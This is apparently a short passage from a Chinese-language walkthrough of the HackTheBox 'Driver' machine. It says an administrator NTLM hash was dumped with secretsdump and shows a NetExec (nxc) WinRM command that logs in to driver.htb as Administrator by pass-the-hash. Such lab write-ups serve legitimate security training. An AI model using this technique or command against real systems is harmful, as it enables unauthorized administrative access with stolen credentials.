 通过secretdump脚本拿到了administrator用户的NTLM哈希，可以通过这个哈希来登录administrator用户(Pass-the-hash)

```bash
sudo nxc winrm driver.htb -u Administrator -H d1256cff8b5b5fdb8c327d3b6c3f5017
```




















